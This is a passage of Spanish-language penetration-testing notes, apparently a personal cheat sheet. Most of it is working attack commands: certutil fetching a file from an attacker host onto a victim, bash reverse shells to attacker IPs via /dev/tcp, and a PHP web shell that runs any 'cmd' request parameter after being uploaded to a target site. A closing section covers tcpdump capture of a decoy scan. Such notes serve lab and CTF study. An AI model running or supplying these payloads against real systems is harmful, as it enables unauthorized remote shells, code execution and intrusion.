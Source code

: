 Y para recibir el archivo podemos utilizar certutil desde la máquina víctima:
```python
certutil -split -urlcache -f http://192.168.0.32/test.txt
```

![[Pasted image 20240612161907.png]]
## CONSEGUIR REVERSE SHELL DE MÁQUINA VÍCTIMA A NUESTRO EQUIPO

Para ello primero pondremos a escuchar con netcat desde nuestro equipo host:
![[Pasted image 20240612161923.png]]

Después, desde la máquina víctima necesitaremos que ejecute el siguiente código para enviarnos una bash:
```bash
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Aunque si lo hacemos desde un navegador, debemos escribirlo de esta manera, porque al poner bash -c seleccionamos el intérprete:
```bash
bash -c 'bash -i >& /dev/tcp/10.8.100.91/443 0>&1'
````
## Código PHP malicioso para ganar Reverse Shell
Esto se utiliza para subir este fichero php a una web que funcione con este lenguaje para después acceder a dicho documento desde algún directorio de uploads de la web; y así ganar ejecución remota de comandos:
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Luego podemos acceder a este fichero malicioso desde la máquina víctima poniendo lo siguiente en la URL seguido del comando a ejecutar:

![[Pasted image 20240612161937.png]]
## TCPDUMP PARA INTERCEPTAR PAQUETES DENTRO DE LA CONEXIÓN

![[Pasted image 20240612161942.png]]

También podemos guardar con tcpdump las conexiones por una determinada interfaz y analizarlas con wireshark. Por ejemplo hacemos un escaneo:
![[Pasted image 20240612161950.png]]


Si guardamos esto en un fichero .cap para analizarlo con wireshark, veremos que en este escaneo además de nuestra IP también se habrá enviado otros paquetes desde la IP 192.168.0.232 que hemos proporcionado como señuelo:
![[Pasted image 20240612162000.png]]

![[Pasted image 20240612162002.png]]
